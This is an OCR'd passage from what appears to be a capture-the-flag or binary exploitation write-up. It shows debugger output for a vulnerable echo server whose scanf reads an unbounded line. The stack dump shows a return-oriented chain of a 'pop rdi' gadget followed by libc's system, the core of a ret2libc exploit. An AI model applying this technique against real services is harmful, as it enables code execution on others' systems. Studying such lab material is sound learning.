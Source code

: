 ```
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
───────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007ffe4dd21880│+0x0000: 0x00007f2370d3b7e3  →  0xd3c8c0000000000a ("\n"?)    ← $rsp
0x00007ffe4dd21888│+0x0008: 0x00007f23709dbfc1  →  <_IO_do_write+177> mov rbp, rax
0x00007ffe4dd21890│+0x0010: 0x00007ffe4dd21920  →  "WeLcOmE To mY EcHo sErVeR!"  ← $rsi
0x00007ffe4dd21898│+0x0018: 0x00007f2370d3b760  →  0x00000000fbad2887
0x00007ffe4dd218a0│+0x0020: 0x000000000000000a ("\n"?)
0x00007ffe4dd218a8│+0x0028: 0x00007ffe4dd21920  →  "WeLcOmE To mY EcHo sErVeR!"
0x00007ffe4dd218b0│+0x0030: 0x00007f2370d372a0  →  0x0000000000000000
0x00007ffe4dd218b8│+0x0038: 0x000000000000001b
─────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x4006ef <do_stuff+23>    mov    rsi, rax
     0x4006f2 <do_stuff+26>    lea    rdi, [rip+0x23b]        # 0x400934
     0x4006f9 <do_stuff+33>    mov    eax, 0x0
 →   0x4006fe <do_stuff+38>    call   0x400580 <__isoc99_scanf@plt>
   ↳    0x400580 <__isoc99_scanf@plt+0> jmp    QWORD PTR [rip+0x200ab2]        # 0x601038 <__isoc99_scanf@got.plt>
        0x400586 <__isoc99_scanf@plt+6> push   0x4
        0x40058b <__isoc99_scanf@plt+11> jmp    0x400530
        0x400590 <_start+0>       xor    ebp, ebp
        0x400592 <_start+2>       mov    r9, rdx
        0x400595 <_start+5>       pop    rsi
─────────────────────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
__isoc99_scanf@plt (
   $rdi = 0x0000000000400934 → 0x6325005d0a5e5b25 ("%[^\n]"?),
   $rsi = 0x00007ffe4dd21890 → 0x00007ffe4dd21920 → "WeLcOmE To mY EcHo sErVeR!",
   $rdx = 0x00007f2370d3c8c0 → 0x0000000000000000,
   $rcx = 0x00007f2370a5f264 → 0x5477fffff0003d48 ("H="?)
)
─────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln_patched", stopped 0x4006fe in do_stuff (), reason: SINGLE STEP
───────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4006fe → do_stuff()
[#1] 0x4008a0 → main()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

(the $rsi value is 0x00007ffe4dd21890), (2) run the next instruction `ni` command to jump past scanf, and (3) run the command `telescope 0x00007ffe4dd21890 -l 64`, we can see the part of the stack that matters to us: 

```
0x00007ffe4dd21918│+0x0030: 0x0000000000400913  →  <__libc_csu_init+99> pop rdi
0x00007ffe4dd21920│+0x0038: 0x00007f2370c030fa  →  0x00007f2370c030fa
0x00007ffe4dd21928│+0x0040: 0x00007f237099e4e0  →  <system+0> test rdi, rdi
```
